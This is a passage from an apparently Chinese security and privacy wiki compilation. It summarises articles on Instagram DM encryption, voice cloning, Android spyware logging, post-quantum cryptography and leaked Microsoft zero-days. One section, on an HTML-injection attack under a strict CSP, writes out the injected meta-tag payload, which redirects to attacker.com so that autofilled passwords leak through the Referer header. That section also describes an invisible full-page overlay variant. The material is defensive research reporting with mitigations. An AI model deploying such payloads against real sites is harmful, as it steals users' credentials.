2025 年 Meta 已确认用户与 Meta AI 的对话（包括私人对话中的互动）可用于广告定向。现在 Instagram DMs 加密被移除，Meta 尚未说明普通消息是否也会被用于类似的 AI 分析。这构成了一个渐进的、系统性的隐私侵蚀路径：先移除加密，再将消息内容整合进 AI 广告系统。

## 实践启示

**1. 高风险用户应立即迁移至真正的 E2EE 平台**

Meta 发言人建议用户转向 WhatsApp（同样由 Meta 拥有但保留 E2EE），但对于真正需要隐私保护的用户，应考虑 Signal 等独立加密通讯工具，不依赖同一公司的生态。

**2. 将 Instagram DMs 视为明文传输，假设已被监控或存档**

隐私倡导者明确警告：失去 E2EE 意味着消息面临" surveillance, interception, and misuse"。用户应假设 Instagram DMs 内容可被 Meta 读取、第三方获取或数据泄露暴露，避免通过 Instagram DMs 传递敏感信息。

**3. 在使用任何社交平台 DMs 前，验证其加密状态**

此事件表明，即使用户以为在使用加密服务，平台随时可能撤回加密保护。使用前应查阅平台当前隐私政策，确认 E2EE 是否为默认启用，并记录关键版本以便追踪变化。

**4. 关注现有消息的删除或迁转选项**

由于 Meta 未明确说明已有加密消息的处理方式，高隐私需求用户应主动：(1) 导出或删除重要对话；(2) 在加密仍然有效时将消息迁移至更安全的平台；(3) 避免在 Instagram 保留敏感通信历史。

**5. 对"迁移至 WhatsApp"的建议保持批判距离**

Meta 将用户引向 WhatsApp，但其整体商业模式持续向 AI 监控和广告定向演进。WhatsApp 虽保留 E2EE，但与 Meta AI 的交互已被用于广告定向，且 WhatsApp 的元数据收集和其他数据实践与 Instagram 存在整合可能。

## 相关实体
- [Weve Been Here Before Ai Vulnerability Research](https://github.com/QianJinGuo/wiki/blob/main/entities/weve-been-here-before-ai-vulnerability-research.md)
- [Microsoft Zero Days Researcher Disgruntled](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-zero-days-researcher-disgruntled.md)
- [Fragnesia Linux Kernel Local Privilege Escalation Via Esp In Tcp](https://github.com/QianJinGuo/wiki/blob/main/entities/fragnesia-linux-kernel-local-privilege-escalation-via-esp-in-tcp.md)
- [Us Bank Aws Ai Migration](https://github.com/QianJinGuo/wiki/blob/main/entities/us-bank-aws-ai-migration.md)
- [Deerflow Hermes Openclaw Comparison](https://github.com/QianJinGuo/wiki/blob/main/entities/deerflow-hermes-openclaw-comparison.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/5235705.md)

---

## Ch12.058 AI Voice Cloning: The Technology Behind It, Who's Building It, and Where It's Headed

> 📊 Level ⭐⭐ | 7.2KB | `entities/AI-Voice-Cloning-The-Technology-Behind-It-Whos-Building-It-a.md`

## 核心要点
- Published Time: 2026-05-16T11:13:31+01:00
- Voice cloning 从需要数小时训练的复杂语音模型，到现在只需短音频片段几分钟即可复制的 DIY 工具
- 零样本克隆（Zero-shot）只需 3-10 秒音频；少样本克隆（Few-shot）需要 1-5 分钟；完全微调需要 1 小时以上
- 四大质量维度：自然度、说话人相似度、可懂度、韵律（节奏和语调）
- 主要评估方法：MOS（平均意见分数）

## 技术栈解析
### 三种克隆方法
| 方法 | 数据需求 | 适用场景 |
|------|---------|---------|
| Zero-shot cloning | 3-10 秒音频 | 快速复制、无需微调 |
| Few-shot cloning | 1-5 分钟音频 | 提升真实度和稳定性 |
| Full fine-tuning | 1 小时以上 | 专业级高精度 |

### 模型架构层次
1. **Encoder-decoder models**：编码器将声音转换为speaker embedding，解码器基于该声音画像生成语音
2. **Diffusion models**：通过逐步降噪生成接近真实的高质量语音
3. **Transformer-based TTS**：使用时序注意力机制，生成更自然的对话流
4. **Neural vocoders (WaveNet, HiFi-GAN)**：将模型预测转换为真实音频波形，直接影响清晰度、真实度、流畅度和整体听感

### Speaker Embedding 的核心作用
Speaker embedding 是一个短的高维向量，唯一描述一个人的声音。借助它，语音模型可以区分内容（词语）和说话人（声音）——这是创建令人信服的声音克隆的最重要因素。

## 生态玩家
### 四类参与者
1. **Foundation Model Labs**：Coqui TTS、Tortoise TTS、Bark 等开源项目降低开发门槛
2. **Enterprise/B2B Platforms**：专注 IVR 系统、跨语言配音、无障碍应用
3. **Consumer-Facing Platforms**：如 Lalals，将语音克隆、实时变声、TTS、音频编辑整合到单一环境
4. **Embedded/API-First Players**：通过 API 将语音克隆集成到应用、游戏、播客、无障碍工具

## 安全风险
Voice cloning 继承了早期语音识别技术的安全风险。研究表明，即使是简单的录音或合成语音输入也足以欺骗不安全的认证系统。

## 深度分析
### 技术民主化的质变
Voice cloning 从"需要数小时训练、录音棚级高质量录音、专业研究团队部署"到"简单网页浏览器即可完成"——这个质变正在将曾经只属于好莱坞和情报级别系统的能力普惠化。这类似于 LLM 对 AI 文本的影响：开源模型降低门槛，商业应用快速扩张。

### 零样本质量即将达到 parity
零样本语音克隆（仅需几秒音频）产出的结果将与微调模型无法区分，使高质量语音合成变得极其简单和普及。这将深刻影响：

- 内容创作行业（配音、播客、视频）
- 无障碍应用（语音修复）
- 企业品牌语音系统

### 实时化的下一个前沿
延迟将降低到人类无法感知差异的程度（<50ms），这将开启实时应用的新场景：

- 实时翻译的语音保持原说话人特征
- 直播中的语音变换
- 支持性沟通（辅助听力障碍者）

### 多语言 preserving voice identity
未来单一声音将能自然说多语言，同时保留定义其身份的独特特征：音色、语调、说话风格。这将使跨语言内容创作更加自然。

### Voice as Personal Infrastructure
用户将拥有自己的语音模型，可作为数字资产跨平台使用：身份认证、内容创作、无障碍应用。语音将成为个人数字基础设施的一部分。

## 实践启示
### 1. 安全团队必须关注 Voice Cloning 的认证风险
与早期语音识别技术一样，voice cloning 带来了相同类型的安全风险。简单的录音或合成语音输入可能足以欺骗不安全的认证系统。**防御措施**：

- 不要仅依赖语音生物识别作为唯一认证因素
- 增加多因素认证
- 监测异常认证模式

### 2. 内容创作者的新工具箱
Voice cloning 为内容创作者提供了新能力：

- AI  vocals 和音乐实验
- 多语言配音和本地化
- 快速生成播客和视频配音
- 保留个人声音特征的跨平台内容

### 3. 企业品牌语音策略
企业应考虑建立品牌语音系统：

- 统一的客户支持语音
- 跨渠道一致性体验
- 语音作为品牌识别的延伸

### 4. 无障碍应用的重要机遇
Voice cloning 可以用于：

- 语音修复（为语音障碍用户恢复语音）
- 个性化 TTS（用用户自己的声音）
- 沟通辅助设备

### 5. 质量评估的局限性
当前主要评估方法 MOS（平均意见分数）是主观和受限的。在以下场景仍有不足：

- 长文本的连贯性
- 高度情绪化内容
- 特殊口音
- 跨语言切换
## 相关实体
- [Openai Quietly Bought Voice Cloning Star](https://github.com/QianJinGuo/wiki/blob/main/entities/openai-quietly-bought-voice-cloning-star.md)
- [Ai Phishing Attacks Are On The Rise Are You Prepared Bitward](https://github.com/QianJinGuo/wiki/blob/main/entities/AI-phishing-attacks-are-on-the-rise-Are-you-prepared-Bitward.md)
- [Scammers Send Physical Phishing Letters To Steal Ledger Wall](https://github.com/QianJinGuo/wiki/blob/main/entities/Scammers-Send-Physical-Phishing-Letters-to-Steal-Ledger-Wall.md)
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/AI-Voice-Cloning-The-Technology-Behind-It-Whos-Building-It-a.md)

---

## Ch12.059 Stealing Passwords via HTML Injection Under a Strict CSP

> 📊 Level ⭐⭐ | 7.2KB | `entities/afine-csp-html-injection-password-exfiltration.md`

# Stealing Passwords via HTML Injection Under a Strict CSP

## 摘要

AFINE Security Research 于 2026 年 6 月披露了一种在**严格 CSP（Content-Security-Policy）**下通过 HTML 注入窃取浏览器保存密码的攻击技术。核心发现：即使 CSP 设置为 `script-src 'none'`、`default-src 'none'`（理论上阻止一切脚本执行），攻击者仍可通过**Chrome 密码自动填充**机制 + **Referer 头泄露**实现密码窃取，全程无需 JavaScript。攻击链为：HTML 注入伪造表单 → Chrome 自动填充密码 → `<meta>` 标签设置 `unsafe-url` referrer 策略 → `<meta>` 重定向到攻击者域名 → Referer 头携带明文密码。

## 核心要点

### 攻击原理三要素

1. **Chrome 密码自动填充漏洞**：Chrome 会向匹配域名上的任何表单（包括通过 HTML 注入植入的伪造表单）自动填充保存的凭证——不论表单的提交目标是谁。Firefox 和 Safari 在 action 指向不同域名时拒绝自动填充，但 Chrome 不检查

2. **Referer 头泄露机制**：通过注入 `<meta name="referrer" content="unsafe-url">` 强制浏览器在页面导航时携带完整 URL（含查询参数中的密码），配合 `<meta http-equiv="Refresh">` 重定向到攻击者域名，密码通过 Referer 头泄露

3. **CSP 无法阻止**：严格 CSP 阻止了 XSS 和 CSS 注入，但**不阻止** HTML 注入、表单植入、`<meta>` 重定向和 Referer 头泄露

### 浏览器差异对比

| 行为 | Chrome | Safari | Firefox |
|------|--------|--------|---------|
| `<meta>` 覆盖 referrer 策略（`no-referrer` → 泄露） | ✅ 泄露完整 URL | ✅ 泄露 Origin | ✅ 泄露 Origin |
| `` / `<script>` / `<iframe>` 泄露 | 完整 URL | 仅 Origin | 仅 Origin |
| 密码自动填充到 GET 表单 | ✅ | ✅ | ✅ |
| action 指向不同域名时拒绝填充 | ❌ 始终填充 | ✅ 拒绝 | ✅ 拒绝 |
| **整体风险等级** | **最高** | **中等** | **中等** |

Chrome 是**最不安全的**——攻击者可通过 HTML 注入在大多数标签上泄露完整 URL，且密码自动填充不检查 action 目标。

### 完整攻击链（单次点击）

```
1. 攻击者发现目标站点存在 HTML 注入（GET 参数反射）
2. 注入伪造表单（email + password），Chrome 自动填充
3. 表单中嵌入隐藏的 html 字段，携带恶意 payload：
   - <meta name="referrer" content="unsafe-url">
   - <meta http-equiv="Refresh" content="0,url=https://attacker.com">
4. 用户点击表单 → 凭证作为 GET 参数发送
5. 第二层 payload 触发 → 浏览器重定向到攻击者域名
6. Referer 头携带完整 URL（含 email + password）发送到攻击者服务器
```

整个过程**无需 JavaScript**，严格 CSP 无法阻止。

### 实际代码演示

AFINE 提供了一个 NodeJS 测试应用，展示了极严格 CSP（`default-src 'none'`, `script-src 'none'`, `form-action 'self'`）下的完整漏洞利用。关键点：CSP 的 `form-action 'self'` 允许同域表单提交，而密码管理器不区分 GET/POST 方法。

### 改进建议（可选 CSS 注入场景）

如果攻击者还能注入内联 CSS（`style-src 'unsafe-inline'`），可创建覆盖全页面的不可见按钮（`position: fixed; width: 100vw; height: 100vh; opacity: 0`），使用户点击页面任意位置即触发攻击——实现**零交互要求**的密码窃取。

## 深度分析

### CSP 的安全边界被重新定义

这篇研究揭示了 CSP 的一个根本性盲区：CSP 设计初衷是控制**资源加载**（脚本、样式、图片等），而非控制**文档行为**（表单提交、页面导航、元标签）。HTML 注入利用的是文档级别的行为——`<meta>` 标签设置 referrer 策略和页面重定向，这不在 CSP 的管辖范围内。这意味着 "严格 CSP = 安全" 的假设需要被彻底修正：CSP 是防御层之一，但不是防御 XSS/HTML 注入后果的终极手段。

### 密码管理器的设计缺陷

最深层问题不在 CSP，而在密码管理器。Chrome 的自动填充逻辑存在两个缺陷：（1）不验证表单的提交目标（action）是否可信——任何同域名表单都能获取保存的凭证；（2）不区分 GET 和 POST——GET 请求将密码暴露在 URL 中，进入服务器日志、代理日志和浏览器历史。Firefox 和 Safari 的 action 域名检查是更安全的设计，但仍允许 GET 表单自动填充。

### Referer 策略规范的实现不一致

W3C 规范定义了 referrer 策略的评估顺序：`noreferrer` link type → `referrerpolicy` 属性 → `<meta name="referrer">` → `Referrer-Policy` 头。Chrome 严格按此顺序执行，允许 `<meta>` 覆盖 HTTP 头；Safari 和 Firefox 选择忽略部分规范，构建了更安全的行为。这种规范实现不一致是 Web 安全的持续隐患。

### 对 Web 安全评估的影响

安全测试中常见的做法是：看到严格 CSP 就降低 HTML 注入的风险等级。这篇研究要求评估者重新审视：**任何可反射参数都应被视为注入点**，即使 XSS 被 CSP 阻止。HTML 注入 + 密码管理器 + Referer 泄露的组合可绕过 CSP 实现凭证窃取。

## 实践启示

1. **不要依赖 CSP 保护登录页面**：CSP 阻止 XSS 但不阻止 HTML 注入和 Referer 泄露——必须在源头修复注入（上下文编码所有反射输出）
2. **设置显式 Referrer-Policy**：对敏感应用设置 `no-referrer` 或 `same-origin`——但注意 Chrome 中 `<meta>` 仍可覆盖，这是纵深防御而非根本修复
3. **禁止在 URL 中传递凭证**：GET 参数进入服务器日志、代理日志、浏览器历史——即使没有攻击者，这也是安全反模式
4. **将任何反射参数视为注入点**：即使 CSP 阻止了 XSS，HTML 和 CSS 注入足以武器化密码自动填充
5. **浏览器安全评估需考虑密码管理器行为**：渗透测试应包含密码管理器自动填充的攻击面评估——Chrome 的不检查 action 域名行为是已知风险
6. **Web 应用应设置 `autocomplete="off"` 或限制自动填充范围**：对高安全场景，考虑在登录表单上限制浏览器自动填充行为

## 相关实体

- [Agent 安全攻防](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-attack-defense.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/afine-csp-html-injection-password-exfiltration.md)

---

## Ch12.060 Google and Amnesty International teamed up to make Android spyware detectable

> 📊 Level ⭐⭐ | 7.1KB | `entities/google-and-amnesty-international-teamed-up-to-make-android-s.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/google-and-amnesty-international-teamed-up-to-make-android-s.md)

## 核心要点
- 这是主流设备厂商首次推出专门用于法证检测高级威胁的功能
- 针对商业间谍软件（如 NSO Group 的 Pegasus）提供持久化取证日志
- 目前仅支持 Pixel 设备，需要 Android 16 和 Google 账户
## 相关实体
- [Google Amnesty Spyware Detection](https://github.com/QianJinGuo/wiki/blob/main/entities/google-amnesty-spyware-detection.md)
- [Google And Amnesty International Teamed Up To Make Android S](https://github.com/QianJinGuo/wiki/blob/main/entities/google-and-amnesty-international-teamed-up-to-make-android-s.md)
- [Shub Reaper Macos Stealer Attack Chain](https://github.com/QianJinGuo/wiki/blob/main/entities/shub-reaper-macos-stealer-attack-chain.md)
- [Google And Amnesty International Teamed Up To Make It Harder](https://github.com/QianJinGuo/wiki/blob/main/entities/google-and-amnesty-international-teamed-up-to-make-it-harder.md)
- [Google Bigquery Threat Model](https://github.com/QianJinGuo/wiki/blob/main/entities/google-bigquery-threat-model.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/google-and-amnesty-international-teamed-up-to-make-android-s.md)

## 相关实体

## 深度分析
### 执法-隐私的张力重构
Intrusion Logging 的本质是在「监控防御」与「隐私保护」之间寻求新的平衡点。传统取证依赖设备本地短暂、易被篡改的日志，而商业间谍软件（如 Pegasus）能够获取 root 权限并删除取证痕迹。Google 和 Amnesty 设计的方案通过 Advanced Protection Mode 的强认证机制（强制物理安全密钥）保护日志完整性，使得攻击者难以在用户未察觉的情况下篡改或删除日志。然而，这一设计隐含了一个前提：日志本身可能包含敏感信息（浏览器历史、位置数据），因此「安全共享」成为整个链条中最薄弱的环节。

### 商业间谍软件的攻防军备竞赛

### 平台厂商的安全责任边界
这一合作标志着平台厂商（platform vendor）从「被动修复漏洞」向「主动提供防御基础设施」的角色演变。Apple 的 Lockdown Mode、Memory Integrity Enforcement、WhatsApp 的 Strict Account Settings，以及 Google 的 Intrusion Logging，共同构成了一种新的防御范式：由操作系统层面提供「高价值用户」保护，而非依赖第三方安全软件。然而，这也引发了关于平台权力集中化的争议——Google 同时掌握操作系统和威胁情报，是否会形成新的信息不对称？Amnesty 选择与 Google 合作而非对抗，本身就说明了在资源不对称的对抗中，合作可能是更务实的选择。

### 民间社会组织（CSO）的技术能力建设

### 功能局限性的现实约束
Amnesty 明确指出了 Intrusion Logging 的三重限制：1）Android 16 + Pixel 设备排除绝大多数用户；2）需要 Google 账户（这本身就是一个隐私权衡）；3）日志可被有 root 权限的攻击者删除。这些限制揭示了安全功能部署的典型困境：在高风险用户（最需要保护的人）中，高安全要求往往与可用性相冲突——Advanced Protection Mode 的强认证要求对普通用户构成过高门槛，而真正面临国家级威胁的行动者（如记者）往往已掌握足够的操作安全技能。这创造了一个「中间层」用户池：有一定技术能力但缺乏专业资源的用户，他们既能受益于此功能，又是日志泄露风险的主要承担者。

## 实践启示
### 对安全研究人员
1. **取证实录的规范化**：Intrusion Logging 的出现提示，未来 Android 取证应将「Advanced Protection Mode 日志」纳入标准证据链，而非仅依赖传统 logcat 和文件系统痕迹。
2. **攻击者行为的理解升级**：商业间谍软件已高度模块化，取证分析需要关注「安装/卸载时间线」「设备解锁事件」「物理接触记录」等新型取证维度。
3. **日志安全共享协议**：Amnesty 强调安全共享日志的必要性，研究人员应建立加密传输+身份验证的标准流程，避免取证过程中引入二次泄露风险。

### 对隐私倡导者
1. **高风险人群的分层保护**：并非所有用户都需要 Intrusion Logging，但记者、人权活动家、LGBTQ+ 群体等面临针对性攻击的群体应被列为优先推广对象。
2. **平台问责机制的建立**：Intrusion Logging 产生的日志数据访问权归属、保留期限、第三方（包括政府）请求的响应机制，需要 civil society 持续监督。
3. **反监视技术的民主化**：类似功能若仅限 Pixel 设备，会加剧数字鸿沟——Android 生态的碎片化意味着其他厂商（三星、小米、OPPO）需要类似合作才能实现规模化保护。

### 对企业安全团队
1. **移动设备威胁模型的更新**：若企业员工使用 Android 手机处理敏感业务，应评估是否启用 Advanced Protection Mode——尤其是在差旅到高风险国家时。
2. **MDM 集成可能性**：未来 Android Enterprise / MDM 解决方案可能将 Intrusion Logging 状态纳入设备合规性检测。
3. **日志分析能力建设**：即便部署了 Intrusion Logging，大多数企业安全团队也缺乏解析这些日志的流程和工具——需要提前建立分析 pipeline。

### 对政策制定者
1. **商业间谍软件监管框架**：Intrusion Logging 是技术层面的缓解措施，但真正遏制商业间谍软件（如 NSO Group）的扩散需要出口管制（ Wassenaar Arrangement 扩展）和目标市场的法律禁止。
2. **漏洞公平性（Vulnerability Equities Process）**：Google-Amnesty 合作的成功依赖于漏洞发现的负责任披露文化——政策制定者需要确保这种合作不会被滥用为「后门」的技术掩护。
3. **国际人权标准对接**：联合国《工商企业与人权指导原则》已要求企业评估其产品的过度使用风险，Google 此举可作为科技厂商与人权机制对接的参考案例。

---

## Ch12.061 RFC 9958: Post-Quantum Cryptography for Engineers

> 📊 Level ⭐⭐ | 7.1KB | `entities/rfc9958.md`

# RFC 9958: Post-Quantum Cryptography for Engineers

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/rfc9958.md)

## 摘要

RFC 9958 是 IETF 于 2026 年 6 月发布的 Informational RFC，由 Banerjee 等人撰写，面向密码学工程师的后量子密码学（PQC）实施指南。该文档的核心论点是：PQC 过渡不是简单的算法替换（drop-in replacement），而是需要**协议级别的重新设计**。文档覆盖了 CRQC 威胁模型、NIST/ISO 标准化算法、KEM 与签名方案的工程差异、PQ/T 混合方案、以及从 Mosca 模型推导的过渡时间线。

## 核心要点

### CRQC 威胁模型：对称 vs. 非对称

RFC 9958 明确区分了量子计算对对称密码学和非对称密码学的不同威胁级别：

**对称密码学（AES、HMAC-SHA256 等）**：Grover 算法提供理论上的二次加速，但其高度不可并行化。即使部署 256 台量子计算机，运行时间仅减少 16 倍。专家共识是 AES-128 在实践中仍然安全，密钥长度不一定需要翻倍。NIST 在 PQC 评估中仍以 AES-128/192/256 作为安全级别基准，表明对 AES 稳定性的信心。

**非对称密码学（RSA、ECC、DH 等）**：Shor 算法可以高效解决整数分解和离散对数问题，这是当前公钥密码学的数学基础。研究表明，CRQC 可在数小时甚至数秒内破解 RSA-2048。由于增加密钥大小无法提供安全解决方案（RSA 密钥需要达到数 GB 级别），必须**完全替换算法**。

### NIST 标准化 PQC 算法

截至 RFC 9958 发布时，NIST 已标准化以下 PQC 算法：

**KEM（密钥封装机制）**：
- **ML-KEM**（FIPS 203）：基于模块格的 KEM，提供 IND-CCA2 安全性
- **HQC**：基于准循环码的编码算法，已被 NIST 选入标准化但尚未发布

**数字签名**：
- **ML-DSA**（FIPS 204）：基于模块格的签名算法，使用 Fiat-Shamir with Aborts 框架
- **SLH-DSA**（FIPS 205）：无状态哈希签名算法，唯一标准化的无状态哈希签名方案
- **FN-DSA**（FIPS 206，尚未发布）：基于 NTRU 格的签名算法，以紧凑性著称

一个关键差异：传统算法（如 RSA、ECC）可以同时用作 KEM 和签名方案，而目前没有单一 PQC 算法能同时实现两种功能。这意味着协议升级时必须分别替换。

### PQC 三大类别

RFC 9958 将 PQC 方案分为三大类：

1. **基于格（Lattice-based）**：利用格中的"陷门"问题，公钥和签名比经典方案大约 6-100 倍，是通用替换的最佳候选（ML-KEM、ML-DSA、FN-DSA、FrodoKEM）
2. **基于哈希（Hash-based）**：安全性基于底层哈希函数，分为有状态（XMSS、LMS）和无状态（SLH-DSA）两类。有状态方案需要额外的运维复杂度
3. **基于编码（Code-based）**：始于 1970-80 年代的 McEliece 和 Niederreiter 工作，包括 Classic McEliece、HQC、BIKE

### KEM vs. 传统密钥交换的根本差异

RFC 9958 指出 KEM 的 API 与传统密钥协商/密钥传输机制存在本质差异，这直接影响协议设计：

- **密钥协商（DH/ECDH）**：双方各贡献一个公私钥对
- **密钥传输（RSA 加密）**：一方选择对称密钥并加密给另一方
- **KEM**：`Encaps()` 操作涉及发送方选择的随机性，因此 KEM-based 协议**不能同时**是 AKE（认证密钥交换）和 NIKE（非交互密钥交换）

这意味着某些互联网协议需要重新设计，要么引入额外的网络往返，要么在安全属性上做出取舍。

## 深度分析

### Mosca 模型与过渡时间线

RFC 9958 引用的 Mosca 模型是理解 PQC 过渡紧迫性的关键框架：

- **x** = 系统和数据需要保持安全的时间
- **y** = 完全迁移到 PQC 基础设施所需的年数
- **z** = CRQC 出现前的剩余时间

当 x + y > z 时，数据已经处于不安全状态。对于数据机密性，"harvest now, decrypt later"（HNDL）攻击意味着今天未实施量子安全策略的加密数据未来可能被破解。对于认证，虽然签名通常生命周期短，但基础设施依赖的根密钥可能嵌入硬件设备中数十年。

文档特别强调：不要低估加速 CRQC 出现的因素——更快的量子计算进展、更高效的 Shor 算法变体，以及**私有的国家级量子研究**可能比公开研究领先数年。

### PQ/T 混合方案的工程挑战

RFC 9958 详细讨论了后量子与传统（PQ/T）混合方案：

- **混合机密性**：结合 PQC KEM 和传统 KEM 的共享秘密
- **混合认证**：同时使用 PQC 和传统签名
- **KEM Combiner 设计**：最简单的 combiner 是拼接 `ss1 || ss2`，但要保留 IND-CCA2 属性需要更复杂的构造

混合方案的价值在于：即使 PQC 算法被发现存在漏洞，传统算法仍提供保护；反之亦然。但这增加了协议复杂度和计算开销。

### 受限设备与网络的影响

PQC 过渡对受限设备（IoT、智能卡、嵌入式系统）的影响尤为严重：
- PQC 密钥和签名尺寸显著增大（10-100x）
- 智能卡应用需要同时更换卡片和读卡器
- 性能敏感应用需要支持 PQC 硬件加速的 CPU
- 安全敏感应用需要 PQC TPM、TEE、安全飞地等

迁移时间 y 不仅包括部署时间，还包括集成、测试、审计、重新认证的时间，以及供应商生产 PQC-ready 产品的前置时间。

## 实践启示

1. **立即开始混合密钥交换部署**：PQ/T 混合密钥交换相对自包含，通常只需更改密码学库（如 OpenSSL），可以尽早积累运维经验
2. **评估你的实际迁移时间 y**：不要只考虑"打补丁"的时间，要考虑硬件更换、审计、认证的完整周期
3. **保护长期敏感数据优先**：HNDL 攻击意味着今天未保护的加密数据未来可能被破解，这是最紧迫的威胁
4. **关注 KEM 的协议级影响**：KEM 不是 DH 的 drop-in replacement，某些协议需要引入额外往返或重新设计
5. **FN-DSA 实现的侧信道风险**：FN-DSA 签名对侧信道攻击高度敏感，除非使用常量时间 64 位浮点运算

## 相关实体

- [后量子安全采用分析](https://github.com/QianJinGuo/wiki/blob/main/entities/on-post-quantum-security-adoption.md) — PQC 采用策略和威胁评估框架
- 以太坊 BLS 后量子替换 — 区块链场景的 PQC 迁移案例
- 密码学敏捷性（Cryptographic Agility）是 PQC 过渡的底层设计原则
- [Cisco SD-WAN 漏洞](https://github.com/QianJinGuo/wiki/blob/main/entities/cve-2026-20182-cisco-sd-wan-vhub-bypass.md) — 安全基础设施需要持续更新的例证

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/rfc9958.md)

---

## Ch12.062 Disgruntled researcher releases two more Microsoft zero-days

> 📊 Level ⭐⭐ | 7.1KB | `entities/disgruntled-researcher-microsoft-zero-days.md`

## 核心要点
- 安全研究文章：高调白帽/灰帽研究者通过 GitHub 和博客公开 Microsoft 零日漏洞
- v=8, c=9
- YellowKey：BitLocker 绕过攻击，可在物理访问条件下获取 SYSTEM shell 权限
- GreenPlasma：权限提升漏洞，获得 SYSTEM 访问权限
- Nightmarer-Eclipse（又名 Chaotic Eclipse）：疑似前 Microsoft 员工，2026 年已累计发布 5 个零日
- RedSun 和 UnDefend 至今未修复，且已被真实攻击利用
- BlueHammer（CVE-2026-32201）已于 4 月由 Microsoft 修复
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/disgruntled-researcher-microsoft-zero-days.md)

## 深度分析
### 攻击者动机与背景
Nightmare-Eclipse 的行为模式揭示了一种新型的"内部人士-报复性披露"威胁向量。根据其博文自述，动机源于与雇主的纠纷："有人违反了我们的协议，让我无家可归，他们知道这会发生却仍然背后捅刀，这是他们的决定不是我的"。这种叙事在安全社区并不陌生——2024 年的 XZ Utils 供应链攻击背后也是一个不满的开发者——但 Nightmare-Eclipse 的不同之处在于其持续性和精确性。
截至此次披露，该研究者已累计发布 5 个 Microsoft 零日漏洞：BlueHammer（CVE-2026-32201，已修复）、RedSun（未修复，已被实际利用）、UnDefend（未修复）、YellowKey（本次披露）和 GreenPlasma（本次披露）。安全专家 Rik Ferguson 描述这是"一次升级的报复性运动"，并警告更多漏洞即将到来——该研究者声称拥有 dead man's switch，一旦本人失联将自动释放更多漏洞。

### YellowKey：BitLocker 的最后防线
YellowKey 是本次披露中最具影响力的漏洞，因为它直接绕过了 BitLocker——Windows 设备失窃时最后的数据保护层。攻击者需要物理接触目标设备，将特定文件加载到 USB 设备，通过正确的按键序列即可获得 BitLocker 保护机器的无限制 shell 访问。
Forescout 安全情报副总裁 Rik Ferguson 的评价一针见血："如果研究者的说法成立，被盗笔记本就不再是硬件丢失问题，而是数据泄露事件"。这意味着企业资产失窃的法律和合规后果将大幅升级。值得注意的是，Nightmare-Eclipse 还暗示 YellowKey 可能被用做后门——由 Microsoft 植入，但安全专家表示无法根据现有信息验证这一说法。
YellowKey 的缓解措施已有明确建议：启用 BitLocker PIN 码保护和 BIOS 密码锁定。这意味着 Full Disk Encryption 不能仅依赖 TPM 自动解锁，而需要配合额外的身份验证因素。

### GreenPlasma：权限提升的艺术
GreenPlasma 提供的是一种权限提升（EoP）路径，让普通用户或低权限进程获得 SYSTEM 级别访问。与 YellowKey 不同，GreenPlasma 目前只发布了部分利用代码而非完整 PoC，当前版本会触发默认 Windows 配置下的 UAC consent 提示——这意味着攻击者还需要进一步武器化才能实现静默利用。
然而，GreenPlasma 的威胁在于其战术价值。Bridewell 网络威胁情报主管 Gavin Knapp 指出："权限提升漏洞通常在攻击者获得初始立足点后使用，使其能够发现并获取凭据和数据，然后横向移动到其他系统，最终达成数据窃取或勒索软件部署等目标"。这意味着即使 GreenPlasma 目前还不完美，它已经是攻击者工具箱中极具价值的关键组件。

### 泄露披露的生态影响
RedSun 和 UnDefend 的案例揭示了零日披露的生态危害：Huntress 观察到，这些漏洞的 PoC 代码发布后迅速被实际攻击者采用并用于真实入侵。这说明即使是非恶意的披露行为，也会因为发布时间差为攻击者提供窗口。

## 实践启示
### 企业安全团队
对于企业安全团队，此案例的核心教训是：BitLocker 并非万无一失。启用 BitLocker 时，必须配置 TPM + PIN 或 TPM + USB 启动密钥的多因素解锁方式，而非仅依赖 TPM 自动解密。此外，BIOS/UEFI 密码锁定应当作为标准笔记本配置，防止通过 USB 引导绕过操作系统级保护。
补丁管理策略需要考虑外部披露的零日漏洞。RedSun 和 UnDefend 在披露后迅速被利用，说明"等待厂商补丁"的传统策略存在空窗期风险。对于高风险漏洞，应考虑临时补偿性控制（如网络分段、EMM 策略限制）而非被动等待。

### 安全产品开发者
对于安全产品开发者，Nightmare-Eclipse 案例提醒内部威胁检测的重要性。该研究者据称拥有 Microsoft 内部信息和代码库访问权限，这意味着供应链安全不仅包括开源依赖，还应覆盖内部工具和员工权限管理。
Dead man's switch 的存在意味着简单地切断研究者和企业的联系或对其提起诉讼，可能触发更大规模的披露。安全社区对此类披露的处理需要更审慎的法律和外交策略。

### 威胁情报视角
从威胁情报角度，Nightmare-Eclipse 的活动模式提供了难得的对手分析样本。其技术文档质量高、披露节奏稳定、GitHub 和博客基础设施完备——这不是业余爱好者，而是有组织、专业化的安全研究者。2026 年 5 月 12 日刚完成 Patch Tuesday，5 月 13 日即发布新漏洞——这一timing选择表明攻击者对 Microsoft 的响应流程有深刻理解。
对于威胁情报团队，建议将 Nightmare-Eclipse 纳入监控名单，持续跟踪其 GitHub 仓库和博客更新，并建立基于 IOC（入侵指标）的早期预警机制。

## 相关实体
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

- [Cline releases open-source agent runtime SDK](https://github.com/QianJinGuo/wiki/blob/main/entities/clinereleasesopen-sourceagentruntimesdk.md)
- [LLM raiders and how to repel them](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-how-to-repel.md) — AI 基础设施安全的另一个威胁向量

---

